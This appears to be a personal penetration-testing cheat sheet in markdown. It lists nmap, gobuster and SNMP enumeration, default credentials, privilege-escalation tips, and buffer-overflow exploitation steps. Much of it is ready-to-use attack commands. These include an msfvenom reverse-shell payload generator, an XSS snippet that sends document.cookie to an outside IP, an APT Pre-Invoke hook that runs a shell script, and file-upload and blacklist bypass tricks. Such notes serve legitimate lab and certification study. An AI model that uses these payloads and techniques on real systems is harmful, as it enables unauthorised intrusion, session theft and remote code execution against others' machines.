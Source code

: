 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Port Scan
- `nmap -sC -sV -oA <name> <ip>`
- `nmap -p- -sV <ip> > all-tcp`
- `nmap -sU <ip> > comm-udp`
- `nmap --script vuln <ip>`
- `nc -zv xx.xx.xx.xx 1-100 2>&1 | grep -v "refused"`

# HTTP/HTTPS 80/443
- `gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html`
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# DNS
https://gist.github.com/feng-zhe/fc78b1f01b6ce6c26dd7a6ebc909953d

## SQLi
https://gist.github.com/feng-zhe/e75d0c2c918c9edf50b27eb4d489b15f

## PHP Wrapper
https://gist.github.com/feng-zhe/e6bc151aa96132b3cc4e03b5a858e80c

## PHP cmd and file upload script
https://gist.github.com/feng-zhe/68efdd66fd20fd4626fe82e3f92d6e2b

# SMB
https://gist.github.com/feng-zhe/3f7c802df4b47bc9d70eeb8bdbd190e8

# SNMP udp/161
- `snmpwalk -c public -v1 <target>`
- `snmp-check -w -t 30 <target>`

# Priv Esc
## Linux
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => `find / -perm -4000 2>/dev/null`
- find all files in /home => `find /home -type f`
- LinEnum.sh, linux-exploit-suggester.sh, linuxprivchecker.py
## Windows
- [ps scripts](https://gist.github.com/feng-zhe/b47e251d9cc5d9bdf6504de182b1b2e0)
- [manually enum](https://gist.github.com/feng-zhe/7913c7cc5b11f23cf99db058bb9edb00)
- [runas attack](https://gist.github.com/feng-zhe/0e6d4dfd75d248d6450658618458d579)
- [service replace](https://gist.github.com/feng-zhe/fc00f38428bb8974ed8ced67879ed374)
- If using MSF, try to migrate to a x64 process and run local\_exploit\_suggest.

# Manually Test User Pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# File 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) `impacket-smbserver share <shared path>`
  - (windows) `net use z: \\<kali's ip>\share`
  - (windows) `copy <file\ z:`

# gdb (with peda)
- `r < <(python exp.py)`
  - (or 'set args' if take parameters)
- `r < input.txt`
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
- `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'`
- `p system` => address of function system
- `info functions` => list all functions
- `vmmap` => find which part is executable.

# binary exploit steps (with immunity dbg)
1. find EIP overflow offset
    1. `msf-pattern_create -l 300`
    1. `msf-pattern_offset -q <value>`
1. test bad chars
1. `!mona modules`
    1. see modules and their security flags. we also need to make sure the module address doesn't contain bad chars.
1. click the "e" button to see the list of executable modules. Double click on one to view its assembly code.
1. find "jmp esp" commands
    1. right click -> search for -> command, then enter "jmp esp"(or others).
    1. right click -> search for -> sequence of commands, then enter "push esp", new line, "ret".
    1. if no DEP is enabled, we can search beyond the .text section where the "search for" commands focus. We can search other sections.
        1. `msf-nasm_shell` and enter "jmp esp", it says "FFE4"
        2. `!mona find -s "\xff\xe4" -m xxx.dll
        3. you can click the button "->|" (except the | are dots)
1. place shellcode
    1. `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`

# Oracle DB exploit tool
- odat.py
  - `--sysdba` to get a 
  
# XSS
```
<script>
document.write('<img src="http://10.10.14.19/xxxx?cookie=' + document.cookie + '" />')
</script>
```

# bypass upload file filter
- jpg.php, php.jpg, php5, php6, php7
- use system filename length limits to truncate the .png part from .php.png

# escaping black list
- /usr/bin/find replaced by /usr/bin/fin? or /usr/bin/\f\i\n\d

# APT pre-invoke attack
If apt update is run, the scripts in /etc/apt/apt.conf.d/ also gets run.
So, if there is a job running apt update, we can put a file with following content under /etc/apt/apt.conf.d/:
`APT::Update::Pre-Invoke {"/bin/bash /tmp/myshell.sh"}`

# Powershell
https://gist.github.com/feng-zhe/5429965db99d9647ffc60bb571c6f46e

# Escape rbash
https://gist.github.com/feng-zhe/ffc2063f138a4321c3cb45c9fdab5e46

# Resources
- [omniscient methods](http://www.0daysecurity.com/penetration-testing/enumeration.html)
- [bypass file upload filter](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
